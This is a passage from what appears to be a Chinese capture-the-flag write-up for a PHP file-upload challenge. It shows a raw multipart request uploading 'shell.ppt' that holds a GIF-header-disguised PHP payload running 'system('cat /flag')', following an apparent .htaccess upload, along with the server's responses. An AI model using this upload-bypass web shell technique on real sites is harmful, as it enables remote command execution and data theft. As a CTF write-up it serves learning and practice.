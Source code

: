 ```
            <strong></strong>
            </br>
            <strong>Your files :.htaccess<br></strong>
            </br>
            <strong>Your dir : uploads/001149b089f853aad2bda9214b94fb21 <br></strong>
            </p>
        </form>
    </div>
</div>
</body>
</html> 
```

###### 上传`shell.ppt`:

```
POST /index.php HTTP/1.1
Host: 129.204.21.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121
Content-Length: 376
Origin: http://129.204.21.115
Connection: close
Referer: http://129.204.21.115/index.php
Upgrade-Insecure-Requests: 1

-----------------------------279095805311502314111982965121
Content-Disposition: form-data; name="fileUpload"; filename="shell.ppt"
Content-Type: image/jpeg

GIF89a
<?=system('cat /flag');
-----------------------------279095805311502314111982965121
Content-Disposition: form-data; name="upload"

submit
-----------------------------279095805311502314111982965121-- 
```

###### 结果如下：

###### 

```
HTTP/1.1 200 OK
Date: Mon, 04 May 2020 08:46:10 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Content-Length: 1027
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Cheek in</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" type="text/css" href="style/css/style1.css">
    <link rel="stylesheet" type="text/css" href="style/css/style2.css">
</head>
```